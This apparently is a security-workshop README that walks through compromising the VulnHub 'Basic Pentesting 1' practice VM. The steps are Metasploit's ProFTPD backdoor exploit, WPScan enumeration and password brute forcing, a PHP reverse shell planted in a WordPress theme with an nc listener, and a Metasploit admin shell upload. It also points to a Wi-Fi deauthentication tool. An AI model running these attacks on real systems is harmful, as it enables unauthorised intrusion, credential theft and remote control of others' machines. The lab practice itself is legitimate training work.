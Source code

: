 # hacksoc28.3.19
All the details of my presentation for those that fall behind

Pre-requisites for the workshop(software)

Any Linux distro 

Arduino IDE (https://www.arduino.cc/en/main/software)

Wireshark (sudo apt-get install wireshark)(Ubuntu/Debian based) 

Python

## GR-GSM(This requires an SDR and some time to compile)
```
sudo apt-get update && \
sudo apt-get install -y \
    cmake \
    autoconf \
    libtool \
    pkg-config \
    build-essential \
    python-docutils \
    libcppunit-dev \
    swig \
    doxygen \
    liblog4cpp5-dev \
    python-scipy \
    python-gtk2 \
    gnuradio-dev \
    gr-osmosdr \
    libosmocore-dev   
```
## Download GR-gsm and compile with (https://github.com/ptrkrysik/gr-gsm)
```
git clone https://git.osmocom.org/gr-gsm
cd gr-gsm
mkdir build
cd build
cmake ..
mkdir $HOME/.grc_gnuradio/ $HOME/.gnuradio/
make
sudo make install
sudo ldconfig
```
## Wifi Deauthentication using ESP8266
(I will provide 4 Nodemcu's you can play around which are pre configured ) 
First we need to flash the NodeMcu using this tutorial (easier to follow the link)
https://github.com/spacehuhn/esp8266_deauther/wiki/Installation


## Pentest part 
This pen test will cover tools like

Nmap
ZAP
metasploit

You are more than welcome to download the Vm and run this on your machine 
https://www.vulnhub.com/entry/basic-pentesting-1,216/


Firstly open up Kali linux or any linux machine 



lets run an Nmap scan on the target machine(you can easily get this since the Vm has a gui by going to connection information)

```
nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports <machine-ip>
```
For demostration purposes i will be using openVas to show some of the vulnabilities

We can see that port 21,22,80 are open
(using openVas we can see that port 21 is exploitable)

This looks promising. Let’s try to exploit it with Metasploit.
```
msfconsole
search ProFTPD
use exploit/unix/ftp/proftpd_133c_backdoor
```


Bingo! Found something. Let’s set the target’s IP.

```
set RHOST xxx.xxx.xxx.xxx
```

And run the exploit.

```
run
whoami
```

Fantastic WE JUST GAINED ROOT ACCESS 

Now that we have gained root access lets dig a little deeper and find some more fancy stuff!


{we can skip this step since we already used Nmap but lets explore the GUI version}
Start up Zenmap and scan against the target IP

It revealed a couple of open ports:

    21 – ProFTPD (What we already exploited)
    22 – OpenSSH
    80 – HTTP with Apache
    
Now try and open the Targets IP address with a web browser 

Now open up your terminal again and start up a uniscan 
Scan the given URL (-u http://<target-ip>) for vulnerabilities, enabling directory and dynamic checks (-qd):
    
```
uniscan -u http://<target-ip> -qd 
```
Interesting. This reveals a URL that we might want to have a deeper look at.

<Taget-ip>/sercet/
    
Also, some external hosts were found:
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-23-10_08_44.png

And a test of http://<target-ip>/secret/wp-login.php reveals a WP-Login page. Bingo! Now the fun can begin.
    
Alright, we are a big step further now. The first thing I want to do now is run  WPScan against the site to enumerate potential users and find potential vulnerabilities.

```
wpscan --url http://<taget-ip>/secret/
```

The WPScan discovers a couple of vulnerabilities:

    WordPress 2.8.6-4.9 – Authenticated JavaScript File Upload – CVE-2017-17092
    WordPress 1.5.0-4.9 – RSS and Atom Feed Escaping – CVE-2017-17094
    WordPress 4.3.0-4.9 – HTML Language Attribute Escaping – CVE-2017-17093
    WordPress 3.7-4.9 – ‘newbloguser’ Key Weak Hashing – CVE-2017-17091
    WordPress 3.7-4.9.1 – MediaElement Cross-Site Scripting (XSS) – CVE-2018-5776
    WordPress <= 4.9.4 – Application Denial of Service (DoS) (unpatched) – CVE-2018-6389
    
    
 But first, let’s run a user enumeration with WPScan.
 ```
 wpscan --url http://192.168.1.111/secret/ --enumerate u
 ```
 Admin as a username… Why not try admin/admin? Huh? Entering Username and Password redirects us somewhere else, a domain.
 
 That’s weird. Let’s figure out what’s up with that.

All links on the “Secret Blog” redirect to a domain named vtcsec, leaving us with a blank page. So if we want to click on a link on the Secret Blog, we get redirected, for example, to http://vtcsec/secret/index.php/2017/11/16/hello-world/

However, if we replace http://vtcsec/ with http://192.168.1.111/secret/index.php/2017/11/16/hello-word/ we are able to access the site. 

Now to be able to run a brute-force attack against the WordPress site without error, we need to add 192.168.1.111 pointing to vtcsec into our hosts file.

```
nano /etc/hosts
```
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-23-14_30_13.png

We can verify if that worked by clicking on a link on the http://<target-ip>/secret/ site again. And there we go, hit F5 to refresh the page and it starts loading correctly.
We now have access to the Admin Dashboard which gives us a host of new things to try.
    
    
But not so fast, what if the password wouldn’t have been admin/admin? We could have used wpscan to brute-force a couple of default passwords against it by running the command below.


```
wpscan --url http://vtcsec/secret/wp-login.php --username admin --wordlist /usr/share/wordlists/metasploit/http_default_pass.txt --wp-content-dir http://<target-ip>:80/secret/wp-content/ --threads 50

```

I used the http_default_pass.txt wordlist and it, sure enough, found the correct password as well.



(This part will not work in this example but is a proof of concept)
We are going to add malicious code to the header.php page. I went to /usr/share/webshells/php and copy the code of php-reverse-shell.php

On your Attacking Computer go to Places -> File System -> usr -> share -> webshells -> php and open php-reverse-shell.php

Copy all of it’s content:

Now I went to Appearance -> Editor -> Theme Header(header.php) in WordPress. I pasted the code at the bottom of the file and changed the IP to my attacking computer. You can delete the code that was in the file before. Also, I changed the port for good measure. Now I updated the file.

https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-26-10_29_32.png

Next, I need to start a listener on my attacking computer.

```
nc -lvp 443
```

Once that is done, you just open http://http://vtcsec/secret/ once more and you will see that we get a connection on our listener.

We are logged in as the www-data User.

### Using Metasploit to upload a malicious WordPress Plugin

The Metasploit Admin Shell Upload module sounds promising. Firing up Metasploit and configuring the module first.
```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
````

set up every thing like so 
https://www.ceos3c.com/wp-content/uploads/2018/03/2018-03-26-14_20_19.png


Finally run by typing

```
exploit
```

And boom! We got a Meterpreter shell


### Using unix privilege escalation check to analyze the target








